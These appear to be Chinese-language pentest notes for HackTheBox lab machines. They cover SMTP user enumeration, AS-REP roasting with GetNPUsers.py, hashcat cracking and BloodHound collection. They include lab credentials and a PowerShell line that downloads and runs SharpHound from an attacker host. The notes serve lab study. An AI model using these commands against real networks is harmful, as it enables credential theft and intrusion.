 

- kali 火狐浏览器不能访问 https，解决 [方案](https://stackoverflow.com/questions/63111167/ssl-error-unsupported-version-when-attempting-to-debug-with-iis-express)



- smtp 110 枚举用户名

  ```bash
  smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 10.10.10.7
  ```

  

- 漏洞利用脚本看看使用说明，看看哪些参数我们可以修改的，哪些参数需要再次信息搜集到才能修改利用



- AS-REP Roast

  用文件名字典循环枚举

  ```bash
  for user in $(cat user_new.list); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
  ```

  ```bash
  for user in $(cat user.list); do GetNPUsers.py htb.local/${user} -no-pass -dc-ip 10.10.10.52 2>/dev/null | grep -F -e '[+]' -e '[-]'; done
  ```
  
  ```bash
  GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile user.list -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
  ```
  
  已知凭据
  
  ```bash
  GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
  ```
  
  破解
  
  ```bash
  hashcat -h | grep Kerberos
  hashcat -m 18200 svc.asrep.hash /usr/share/wordlists/rockyou.txt --force
  ```



- Bloodhound

  ```bash
  # kali 采集 靶机，需要凭据 
  bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
  # SharpHound 远程导入
  iex(new-object net.webclient).downloadstring("http://10.10.16.5/SharpHound.ps1")
  invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
  # 直接运行 exe
  ./SharpHound.exe
  ```
